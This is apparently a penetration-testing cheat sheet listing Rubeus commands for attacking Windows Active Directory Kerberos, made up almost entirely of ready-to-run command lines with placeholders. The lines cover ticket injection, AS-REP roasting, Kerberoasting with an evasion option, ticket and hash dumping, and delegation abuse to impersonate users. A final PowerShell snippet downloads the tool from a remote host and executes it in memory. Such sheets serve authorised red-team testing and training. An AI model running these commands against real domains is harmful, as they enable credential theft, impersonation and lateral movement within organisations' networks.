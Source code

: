 # rubeus

% ad, windows, rubeus

## Rubeus - Inject Ticket from File
Injects a Kerberos ticket from a .kirbi file into the current session.
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket_file_path>
```

## Rubeus - Load from PowerShell (Local)
Loads Rubeus from a local executable into PowerShell memory.
#plateform/windows #target/local #cat/UTILS 
```powershell
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\Path\To\Rubeus.exe"))
```

## Rubeus - Execute from PowerShell
Executes a Rubeus command directly from PowerShell after loading the assembly.
#plateform/windows #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## Rubeus - Monitor Kerberos Activity
Monitors for Kerberos activity, filtering by user.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## Rubeus - Inject Ticket from Base64 Blob
Injects a Kerberos ticket from a Base64 encoded blob.
#plateform/windows #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## Rubeus - AS-REP Roasting (All Users)
Checks for AS-REP Roasting vulnerability for all users in the current domain.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## Rubeus - AS-REP Roasting (Specific User)
Performs AS-REP Roasting for a specific user.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## Rubeus - Kerberoasting (Current Domain)
Performs Kerberoasting for service principal names (SPNs) in the current domain.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Rubeus - Kerberoasting (Specific Domain)
Performs Kerberoasting for SPNs in a specific domain.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Rubeus - Kerberoasting (OPSEC Safe - RC4)
Performs Kerberoasting while avoiding AES-enabled accounts for OPSEC.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Rubeus - Kerberoast AES Enabled Accounts
Performs Kerberoasting specifically targeting AES-enabled accounts.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Rubeus - Kerberoast Specific User Account
Performs Kerberoasting for a specific user account.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## Rubeus - Get User Hash
Retrieves the NTLM hash for a specified user.
#plateform/windows #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## Rubeus - Dump Cached Tickets
Dumps any relevant cached TGS tickets stored in the current session.
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## Rubeus - Ask and Inject Ticket
Requests a TGT for a user and injects it into the current session.
#plateform/windows #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## Rubeus - S4U with Ticket (Constrained Delegation)
Performs S4U with a ticket for constrained delegation.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## Rubeus - S4U with Hash (Constrained Delegation)
Performs S4U with an NTLM hash for constrained delegation.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## Rubeus - Get RC4 Hash of Machine Account
Retrieves the RC4 hash of a machine account's password.
#plateform/windows #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## Rubeus - S4U (Resource-Based Constrained Delegation)
Performs S4U for resource-based constrained delegation.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

## Rubeus - Load and Execute via Reflection (PowerShell)
Loads and executes Rubeus commands in PowerShell using reflection.
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
